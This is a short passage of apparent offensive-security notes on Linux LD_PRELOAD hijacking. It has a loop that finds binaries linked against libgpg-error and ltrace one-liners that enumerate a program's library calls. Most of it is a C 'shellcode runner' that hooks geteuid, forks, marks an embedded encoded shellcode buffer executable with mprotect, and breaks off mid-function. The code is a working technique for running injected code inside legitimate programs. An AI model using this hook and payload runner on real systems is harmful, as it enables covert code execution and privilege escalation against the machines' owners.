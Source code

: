 ## Hunting for alternative binaries

```bash
for binary in /usr/bin/*; do ldd "$binary" 2>/dev/null | grep -q "libgpg-error.so.0" && echo "$binary"; done
```

# LD_Preload
```bash
# Overview of all function calls
ltrace -c cp | awk '{print $1}' | sort | uniq

# List function calls that take no arguments
ltrace -c cp | grep "(void)" | awk '{print $1}' | while read line; do echo -e "\e[31m$line\e[0m"; done
```

```c
// Standard shellcode runner
#define _GNU_SOURCE
#include <sys/mman.h> // for mprotect
#include <stdlib.h>
#include <stdio.h>
#include <dlfcn.h>
#include <unistd.h>

char buf[] = 
"\xeb\x27\x5b\x53\x5f\xb0\x45\xfc\xae\x75\xfd\x57\x59\x53"
"\x5e\x8a\x06\x30\x07\x48\xff\xc7\x48\xff\xc6\x66\x81\x3f"
"\xb5\xf9\x74\x07\x80\x3e\x45\x75\xea\xeb\xe6\xff\xe1\xe8"
"\xd4\xff\xff\xff\x11\x45\xfa\x36\x4a\x42\x4e\xa1\x06\xed"
"\xbf\x64\xec\x46\x48\x42\x4f\x9b\x17\x21\x16\x59\xee\xd6"
"\x59\xee\xd7\x77\x90\x2e\x83\x2d\x65\x16\x91\x2f\x06\x64"
"\xfb\xfa\xf7\xee\xf0\xf9\xc5\xee\xee\xee\x19\x06\xf2\x3e"
"\x42\x4a\x46\xa9\x03\xe5\xb7\x6c\xe4\x4e\x40\x4a\x47\x93"
"\x1f\x29\x1e\x51\xe6\xde\x51\xe6\xdf\x7f\x98\x26\x93\xb7"
"\x6d\x1e\x99\x27\x03\x6c\xf3\xf2\xff\xe6\xf8\xf1\xcd\xe6"
"\xe6\xe6\x1f\x03\x2e\xe0\x75\x16\x47\x86\xa9\x0f\x57\x96"
"\xc9\x52\x2e\xd6\x75\x3d\x5e\x45\x75\x18\x45\x10\x1a\x57"
"\x9a\xdf\x67\x4e\x75\x15\x5e\x46\x4f\x75\x36\x47\x86\x75"
"\x1d\x40\x75\x1e\x41\x10\x1a\x57\x9a\xdf\x67\x24\x57\x88"
"\x57\xa6\x1d\x1f\x01\x01\xdf\xb7\x32\xc0\x4e\x57\x96\xf9"
"\x75\x0f\x45\x75\x35\x47\x10\x1a\x46\x57\x9a\xdf\x66\x3a"
"\x56\xe0\xd6\x6b\x07\x48\x75\x3c\x47\x75\x1f\x75\x1a\x57"
"\x96\xf8\x57\x2e\xe9\x10\x1a\x46\x46\x40\x57\x9a\xdf\x66"
"\xd8\x75\x23\x47\x75\x1e\x40\x10\x1a\x41\x75\x61\x45\x10"
"\x1a\x57\x9a\xdf\x67\xf2\xe0\xf9\x93\xb7\x83\x2d\xb5\xf9";



uid_t geteuid(void)
{ 
    typeof(geteuid) *old_geteuid;
    old_geteuid = dlsym(RTLD_NEXT, "geteuid");

           if (fork() == 0)
        {
                intptr_t pagesize = sysconf(_SC_PAGESIZE);
                if (mprotect((void *)(((intptr_t)buf) & ~(pagesize - 1)),
                 pagesize, PROT_READ|PROT_EXEC|PROT_WRITE)) {
                        perror("mprotect");
                        return -1;
                }
```